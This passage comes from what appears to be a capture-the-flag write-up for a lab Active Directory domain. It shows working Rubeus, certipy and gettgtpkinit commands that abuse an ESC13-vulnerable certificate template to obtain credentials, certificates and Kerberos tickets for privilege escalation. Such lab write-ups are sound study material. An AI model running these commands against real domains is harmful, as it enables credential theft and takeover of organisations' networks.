 <img src="https://i.imgur.com/tIaYpxS.png"/>
To retrieve the NThash, using the same steps which were performed for MS01$

```bash
Rubeus.exe asktgt /user:SVC_CABACKUP /domain:mist.htb  /certificate:./SW9Iavcw.pfx /password:ciCdAJ1qPObnqR57ltDL /getcredentials /nowrap
```

<img src="https://i.imgur.com/UnV8igL.png"/>
<img src="https://i.imgur.com/dwaIbYZ.png"/>

Recently two new ADCS attacks were introduced dubbed as ESC13 & ESC14, from certipy's github issues we can see support for ESC13 being added as well

<img src="https://i.imgur.com/y4Gx2vm.png"/>

So cloning this version of certipy  https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53, we can find a certificate template `ManagerAuthentication` being vulnerable to ESC13 

<img src="https://i.imgur.com/HHORzbT.png"/>

This template has an Extended Key Usage (EKU) for Client Authentication which means that through this certificate we can perform authentication, this certificate is linked with `Certificate Managers` group and members of certificate services can enroll for this certificate 

<img src="https://i.imgur.com/itzDTAJ.png"/>

explain abuse

Requesting the certificate with ManagerAuthentication template, this is going to show an error for public key not meeting the minimum size

<img src="https://i.imgur.com/orzb0ix.png"/>

By default certipy uses 2048 as the length of public key, this can be changed to 4096 with `-key-size` parameter

```bash
certipy req -u 'SVC_CABACKUP' -hashes 'hash' -ca 'mist-DC01-CA' -dc-ip 192.168.100.100 -template 'ManagerAuthentication' -key-size 4096
```

<img src="https://i.imgur.com/VNeqxlz.png"/>

We have the certificate for svc_backup but this holds the permissions of certificate managers, so requesting a TGT with this certificate

```
 python3 gettgtpkinit.py -cert-pfx ./svc_cabackup.pfx -dc-ip 192.168.100.100 mist.htb/SVC_CABACKUP SVC_CABACKUP.ccache
```

<img src="https://i.imgur.com/M2MZdUT.png"/>

Listing the templates again, we can see `BackupSvcAuthentication` can be enrolled with CA Backup members which we are with the current certificate that we have
